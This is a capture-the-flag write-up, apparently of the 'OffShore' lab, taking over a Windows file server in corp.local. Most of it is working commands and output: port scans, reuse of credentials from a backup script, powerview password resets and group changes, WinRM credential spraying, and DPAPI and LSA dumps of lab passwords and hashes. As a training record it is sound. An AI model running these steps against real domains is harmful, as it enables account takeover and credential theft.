


As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds  syn-ack ttl 64 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-07-01T12:37:42+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=FS01.corp.local
| Issuer: commonName=FS01.corp.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-30T03:33:01
| Not valid after:  2024-12-30T03:33:01
| MD5:   7900:5cea:d699:a3e7:c97c:d41a:fde6:ae7b
| SHA-1: 4f14:e4e6:9fcc:789f:4847:e76f:6c01:1550:87ce:bd81
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQd52nkEuec5lNE8jUGoLhQjANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9GUzAxLmNvcnAubG9jYWwwHhcNMjQwNjMwMDMzMzAxWhcNMjQx
| MjMwMDMzMzAxWjAaMRgwFgYDVQQDEw9GUzAxLmNvcnAubG9jYWwwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDRxwqqilIHms0HXJgBfPkRvISU/GypEWFJ
| BM950ziR+k/HL1z1pRdebqBCYReqQM0n1wA/VAQYSf/YJb711mTbNgUPwcvV6ojV
| ot21a+SkGfbh2ofmFmfFAAT//xMi8EOjrP30Si/ehzkMtVxFJ3uPf8clxuSjYZyv
| CQZMSJ6Gt7EZ4V/s3S8dnOSpfGidIBh6cp2hr0ovdDynmf1h7qVFOn1gPm9AUmxh
| q1lWXG1tDOBy32JHwr0dSA3Z/KxmBlv+t2Rj5eoTFRMmSRaZOzKj6twD0PDs1d+/
| 6iz/07JqBFdUlxJuIthjCYxUF+5QBAU6qKpw7IYENPgA+vpjBpoBAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAG1Rs3hitZ0leqbWeYyvDffIA1GHXlH0pvHkLQDaVIkH0qryy4Di9CwO7
| s0TQmjc5bjoD1r+LNJ2JCJiZcGfaS5hEFHeef5ibjcjoXKkrReF19gmCZ6HS0VaF
| 8Ct/3vIgJlEhhQplAHaGXEYGDPHRYzWeediahbWR6tZPuNkcsMwfT1vjXyG8nPWU
| zNEIzVY6CWex9Zv7xPJhFgWdoB3rFnuyadQNvoQyQQRrQOFmMz/XBgba4wPsQEIn
| G2fQ0N5vSdjRJrba/8zL0JZRzHFuq5JA8NYUwLLD9r1fu89JaC8uQPExvHVuuMAd
| z/x73v/MPXoHY6YLtrZ01Zh/UouGag==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CORP
|   NetBIOS_Domain_Name: CORP
|   NetBIOS_Computer_Name: FS01
|   DNS_Domain_Name: corp.local
|   DNS_Computer_Name: FS01.corp.local
|   DNS_Tree_Name: corp.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-01T12:37:02+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=135%CT=%CU=%PV=Y%G=N%TM=6682A315%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=108%TI=I%CI=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=N)
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/CVE-2020-1472]
└─# nmap -F -sU 172.16.1.26
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 14:33 CEST
Nmap scan report for 172.16.1.26
Host is up (0.00019s latency).
All 100 scanned ports on 172.16.1.26 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 20.13 seconds
```

&nbsp;

# Back on track

With the credentials saved in the bat file on the SQL01 I was able to gain access to a Bill's user share on the filesystem.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# impacket-smbclient CORP/'Bill'@172.16.1.26
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

Password:
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Users
# use Users
# ls
drw-rw-rw-          0  Sun Sep  9 20:48:34 2018 .
drw-rw-rw-          0  Sun Sep  9 20:48:34 2018 ..
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 bill
drw-rw-rw-          0  Thu Feb  8 18:57:10 2018 Default
-rw-rw-rw-        174  Thu Feb  8 03:59:26 2018 desktop.ini
# cd bill
# ls
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 .
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 ..
drw-rw-rw-          0  Tue Apr 24 08:09:10 2018 AppData
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Contacts
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Desktop
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Documents
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Downloads
drw-rw-rw-          0  Sun Sep  9 20:44:46 2018 Favorites
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Links
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Music
-rw-rw-rw-     524288  Tue Apr 24 08:09:10 2018 NTUSER.DAT
-rw-rw-rw-     114688  Tue Apr 24 08:09:10 2018 ntuser.dat.LOG1
-rw-rw-rw-      49152  Tue Apr 24 08:09:10 2018 ntuser.dat.LOG2
-rw-rw-rw-      65536  Tue Apr 24 08:09:10 2018 NTUSER.DAT{a0d1b9b4-af87-11e6-9658-c2e7ef3e8ee3}.TM.blf
-rw-rw-rw-     524288  Tue Apr 24 08:09:10 2018 NTUSER.DAT{a0d1b9b4-af87-11e6-9658-c2e7ef3e8ee3}.TMContainer00000000000000000001.regtrans-ms
-rw-rw-rw-     524288  Tue Apr 24 08:09:10 2018 NTUSER.DAT{a0d1b9b4-af87-11e6-9658-c2e7ef3e8ee3}.TMContainer00000000000000000002.regtrans-ms
-rw-rw-rw-         20  Sun Sep  9 20:44:38 2018 ntuser.ini
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Pictures
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Saved Games
drw-rw-rw-          0  Sun Sep  9 20:44:45 2018 Searches
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 Videos
# cd Desktop
# ls
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 .
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 ..
-rw-rw-rw-        282  Sun Sep  9 20:44:41 2018 desktop.ini
# cd ..
# cd Documents
# ls
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 .
drw-rw-rw-          0  Sun Sep  9 20:44:41 2018 ..
-rw-rw-rw-        625  Mon Jul 16 22:30:31 2018 backup.ps1
-rw-rw-rw-          0  Thu Apr 26 16:18:19 2018 Default.rdp
-rw-rw-rw-        402  Sun Sep  9 20:44:41 2018 desktop.ini
-rw-rw-rw-         32  Sun Apr 29 09:18:26 2018 flag.txt
#
```

And grab another flag:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# cat flag.txt             
OFFSHORE{sl0ppy_scr1pting_hurt$}
```

Checking the other Back file I can see traces of another domain:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# cat backup.ps1 
#set server location,credentials
$Server = "\\172.16.4.100"
$FullPath = "$Server\q1\backups"
$username = "pgibbons"
$password = "I l0ve going Fishing!"

net use $Server $password /USER:$username  
try  
{
#copy the backup
Copy-Item $zipFileName $FullPath  
#remove all zips older than 1 month from the unc path
Get-ChildItem "$uncFullPath\*.zip" |? {$_.lastwritetime -le (Get-Date).AddMonths(-1)} |% {Remove-Item $_ -force }  
}
catch [System.Exception] {  
WriteToLog -msg "could not copy backup to remote server... $_.Exception.Message" -type Error  
}
finally {  
#cleanup
net use $Server /delete  
}
```

Now I need to check if these creds are real?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# NetExec ldap 172.16.1.5 -u 'PGibbons' -p 'I l0ve going Fishing!' 
SMB         172.16.1.5      445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:True)
LDAP        172.16.1.5      389    DC01             [+] corp.local\PGibbons:I l0ve going Fishing!
```

Seems like yeah, but what about his permissions then:


He can both change Salvadors password and add himself to Contractors, for AD analysis check back on DC01.

We will start by taking over Salvador by changing his password.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# powerview corp.local/pgibbons@172.16.1.5
[2024-07-02 14:39:00] No credentials supplied, supply password
Password:
[2024-07-02 14:39:06] LDAP Signing NOT Enforced!
(LDAP)-[172.16.1.5]-[CORP\pgibbons]
PV > Set-Domain
Set-DomainCATemplate         Set-DomainDNSRecord          Set-DomainObjectDN           Set-DomainUserPassword       
Set-DomainComputerPassword   Set-DomainObject             Set-DomainObjectOwner        
(LDAP)-[172.16.1.5]-[CORP\pgibbons]
PV > Set-DomainUserPassword -
-AccountPassword   -Domain            -Identity          -OldPassword       -OutFile           
(LDAP)-[172.16.1.5]-[CORP\pgibbons]
PV > Set-DomainUserPassword -Identity salvador -AccountPassword 'Coglione1!'
[2024-07-02 14:40:14] [Set-DomainUserPassword] Principal CN=salvador,OU=Contractors,OU=Corp,DC=corp,DC=local found in domain
[2024-07-02 14:40:15] [Set-DomainUserPassword] Password has been successfully changed for user salvador
[2024-07-02 14:40:15] Password changed for salvador
(LDAP)-[172.16.1.5]-[CORP\pgibbons]
PV >
```

I see that it worked:



Now we should be able to add ourself to the group `Security engineers`:

```
PV > Add-GroupMember -Identity "SECURITY ENGINEERS" -Members "Salvador"
[2024-07-02 14:44:20] User Salvador successfully added to SECURITY ENGINEERS
(LDAP)-[172.16.1.5]-[CORP\salvador]
PV > Get-Domain
Get-Domain                     Get-DomainController           Get-DomainForeignUser          Get-DomainGroupMember          Get-DomainObjectOwner 
Get-DomainCA                   Get-DomainDNSRecord            Get-DomainGPO                  Get-DomainOU                   Get-DomainSCCM 
Get-DomainCATemplate           Get-DomainDNSZone              Get-DomainGPOLocalGroup        Get-DomainObject               Get-DomainTrust 
Get-DomainComputer             Get-DomainForeignGroupMember   Get-DomainGroup                Get-DomainObjectAcl            Get-DomainUser 
(LDAP)-[172.16.1.5]-[CORP\salvador]
PV > Get-DomainGroup
Get-DomainGroup         Get-DomainGroupMember   
(LDAP)-[172.16.1.5]-[CORP\salvador]
PV > Get-DomainGroupMember 
[2024-07-02 14:44:29] [Get-DomainGroupMember] Multiple group found. Probably try searching with distinguishedName
(LDAP)-[172.16.1.5]-[CORP\salvador]
PV > Get-DomainGroupMember -Identity "SECURITY ENGINEERS"
GroupDomainName             : Security Engineers
GroupDistinguishedName      : CN=Security Engineers,CN=Users,DC=corp,DC=local
MemberDomain                : corp.local
MemberName                  : salvador
MemberDistinguishedName     : CN=salvador,OU=Contractors,OU=Corp,DC=corp,DC=local
MemberSID                   : S-1-5-21-2291914956-3290296217-2402366952-1114

GroupDomainName             : Security Engineers
GroupDistinguishedName      : CN=Security Engineers,CN=Users,DC=corp,DC=local
MemberDomain                : corp.local
MemberName                  : lazy_admin
MemberDistinguishedName     : CN=lazy_admin,OU=IT,OU=Corp,DC=corp,DC=local
MemberSID                   : S-1-5-21-2291914956-3290296217-2402366952-1119
```

And lastly changing the `Cyber_ADM` password:

```
V > Set-DomainUserPassword -Identity "CYBER_ADM" -AccountPassword "Coglione1!"
[2024-07-02 14:46:49] [Set-DomainUserPassword] Principal CN=cyber_adm,OU=Operations,OU=Corp,DC=corp,DC=local found in domain
[2024-07-02 14:46:50] [Set-DomainUserPassword] Password has been successfully changed for user cyber_adm
[2024-07-02 14:46:50] Password changed for CYBER_ADM
(LDAP)-[172.16.1.5]-[CORP\salvador]
PV >
```



Nice now we need to see what can we do with these creds?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec winrm  hosts.txt -u 'Cyber_adm' -p 'Coglione1!' 
WINRM       172.16.1.200    5985   DC0              [*] Windows 10 / Server 2019 Build 17763 (name:DC0) (domain:LAB.OFFSHORE.LOCAL)
WINRM       172.16.1.101    5985   WS02             [*] Windows 7 / Server 2008 R2 Build 7601 (name:WS02) (domain:corp.local)
WINRM       172.16.1.26     5985   FS01             [*] Windows 10 / Server 2016 Build 14393 (name:FS01) (domain:corp.local)
WINRM       172.16.1.30     5985   MS01             [*] Windows 10 / Server 2016 Build 14393 (name:MS01) (domain:corp.local)
WINRM       172.16.1.24     5985   WEB-WIN01        [*] Windows 10 / Server 2016 Build 14393 (name:WEB-WIN01) (domain:corp.local)
WINRM       172.16.1.36     5985   WSADM            [*] Windows 10 / Server 2019 Build 19041 (name:WSADM) (domain:corp.local)
WINRM       172.16.1.5      5985   DC01             [*] Windows 10 / Server 2016 Build 14393 (name:DC01) (domain:corp.local)
WINRM       172.16.1.15     5985   SQL01            [*] Windows 10 / Server 2016 Build 14393 (name:SQL01) (domain:corp.local)
WINRM       172.16.1.220    5985   SRV01            [*] Windows 10 / Server 2016 Build 14393 (name:SRV01) (domain:LAB.OFFSHORE.LOCAL)
WINRM       172.16.1.201    5985   JOE-LPTP         [*] Windows 10 / Server 2019 Build 19041 (name:JOE-LPTP) (domain:JOE-LPTP)
WINRM       172.16.1.200    5985   DC0              [-] LAB.OFFSHORE.LOCAL\Cyber_adm:Coglione1!
WINRM       172.16.1.101    5985   WS02             [-] corp.local\Cyber_adm:Coglione1!
WINRM       172.16.1.26     5985   FS01             [-] corp.local\Cyber_adm:Coglione1!
WINRM       172.16.1.30     5985   MS01             [-] corp.local\Cyber_adm:Coglione1!
WINRM       172.16.1.24     5985   WEB-WIN01        [+] corp.local\Cyber_adm:Coglione1! (Pwn3d!)
WINRM       172.16.1.36     5985   WSADM            [-] corp.local\Cyber_adm:Coglione1!
WINRM       172.16.1.5      5985   DC01             [-] corp.local\Cyber_adm:Coglione1!
WINRM       172.16.1.15     5985   SQL01            [-] corp.local\Cyber_adm:Coglione1!
WINRM       172.16.1.220    5985   SRV01            [-] LAB.OFFSHORE.LOCAL\Cyber_adm:Coglione1!
WINRM       172.16.1.201    5985   JOE-LPTP         [-] JOE-LPTP\Cyber_adm:Coglione1!
Running nxc against 10 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

I will move on to WEB-WIN01 now.

&nbsp;

# Need to come back

With the DA credentials dumped from the DCSync we can login now. And I see a flag:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2018   3:19 AM             38 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
OFFSHORE{f1l3_s3rv3rs_h0ld_ju1cy_d@ta}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

But I see also a pcap file in JOE folder, might this be our way into JOE-Laptop?

```
*Evil-WinRM* PS C:\Users\joe> cd Documents
*Evil-WinRM* PS C:\Users\joe\Documents> ls


    Directory: C:\Users\joe\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2018  11:22 PM           3486 capture.pcap


*Evil-WinRM* PS C:\Users\joe\Documents> download capture.pcap
                                        
Info: Downloading C:\Users\joe\Documents\capture.pcap to capture.pcap
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\joe\Documents>
```

And as post exploitation we can see some more credentials:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.1.26 -u 'Administrator' -H 0109d7e72fcfe404186c4079ba6cf79c --dpapi
SMB         172.16.1.26     445    FS01             [*] Windows Server 2016 Standard 14393 x64 (name:FS01) (domain:corp.local) (signing:False) (SMBv1:True)
SMB         172.16.1.26     445    FS01             [+] corp.local\Administrator:0109d7e72fcfe404186c4079ba6cf79c (Pwn3d!)
SMB         172.16.1.26     445    FS01             [+] Loading domain backupkey from nxcdb...
SMB         172.16.1.26     445    FS01             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.1.26     445    FS01             [+] Got 28 decrypted masterkeys. Looting secrets...
SMB         172.16.1.26     445    FS01             [bill][CREDENTIAL] LegacyGeneric:target=TERMSRV/172.16.3.16 - CORP\bill:Donthackm3
SMB         172.16.1.26     445    FS01             [iamtheadministrator][CREDENTIAL] LegacyGeneric:target=joe - joe:Password1!
SMB         172.16.1.26     445    FS01             [iamtheadministrator][CREDENTIAL] LegacyGeneric:target=bob - bob:Big bob the builder123!
SMB         172.16.1.26     445    FS01             [iamtheadministrator][CREDENTIAL] LegacyGeneric:target=CORP\bob - CORP\bob:Big bob the builder123!
SMB         172.16.1.26     445    FS01             [iamtheadministrator][CREDENTIAL] LegacyGeneric:target=CORP\joe - CORP\joe:Who is this joe guy?
```

And LSASS.exe secrets.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.1.26 -u 'Administrator' -H 0109d7e72fcfe404186c4079ba6cf79c --lsa  
SMB         172.16.1.26     445    FS01             [*] Windows Server 2016 Standard 14393 x64 (name:FS01) (domain:corp.local) (signing:False) (SMBv1:True)
SMB         172.16.1.26     445    FS01             [+] corp.local\Administrator:0109d7e72fcfe404186c4079ba6cf79c (Pwn3d!)
SMB         172.16.1.26     445    FS01             [+] Dumping LSA secrets
SMB         172.16.1.26     445    FS01             CORP.LOCAL/joe:$DCC2$10240#joe#4373adefba772f79e84237b1f01a5596: (2018-05-11 04:17:47)
SMB         172.16.1.26     445    FS01             CORP.LOCAL/bob:$DCC2$10240#bob#986c788c2b6a20887eed8fddbd8c4520: (2018-06-09 01:25:00)
SMB         172.16.1.26     445    FS01             CORP.LOCAL/iamtheadministrator:$DCC2$10240#iamtheadministrator#3c1e5b31c203b2b52920f7ce19110ab4: (2023-11-13 13:29:24)
SMB         172.16.1.26     445    FS01             CORP.LOCAL/bill:$DCC2$10240#bill#4cf50f7beea966237e0969ed6b8a1205: (2018-09-09 18:44:38)
SMB         172.16.1.26     445    FS01             CORP.LOCAL/test1:$DCC2$10240#test1#22770016c3c4fe78da99efefc208535f: (2018-09-09 18:48:33)
SMB         172.16.1.26     445    FS01             CORP\FS01$:aes256-cts-hmac-sha1-96:5f57222d312286398efeebc4abf5db958d781fc45f7bf846caabf29a1bd28894
SMB         172.16.1.26     445    FS01             CORP\FS01$:aes128-cts-hmac-sha1-96:ffb9732400e837af7520ba2f6e9c5433
SMB         172.16.1.26     445    FS01             CORP\FS01$:des-cbc-md5:dc6ec4ef679e8576
SMB         172.16.1.26     445    FS01             CORP\FS01$:plain_password_hex:3c004f0033005b005d006b006a004b0058005a0042003a0077003a00400053007500640071003c005100280069003c005a0036007900490053006a006b004a006700710036006f004800790045003800230052005a003c00450059005e002e00620050003e002a0047003500300046003b00390069005600410055003000660077002b00490064004f003a0054005c00720020005f007300380078004900480079006b002b00340066005f0057005a00260070005b0059007a0047004200410079004b0058003700320055003e0027003e002300560021004f0054002f0023002b005a0052002b005b006d0068005000
SMB         172.16.1.26     445    FS01             CORP\FS01$:aad3b435b51404eeaad3b435b51404ee:64bc93857fbd23f816fa187333b11aa0:::
SMB         172.16.1.26     445    FS01             dpapi_machinekey:0x4b8a0d11394a789e956ebda99328f7ce509bd54a
dpapi_userkey:0x9671acb9a4176c8d2b0555ad83f14cfb86cb6bed
SMB         172.16.1.26     445    FS01             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         172.16.1.26     445    FS01             [+] Dumped 12 LSA secrets to /root/.nxc/logs/FS01_172.16.1.26_2024-07-02_183235.secrets and /root/.nxc/logs/FS01_172.16.1.26_2024-07-02_183235.cached
```

I feel we are done here and we can move to Joe-LPTP.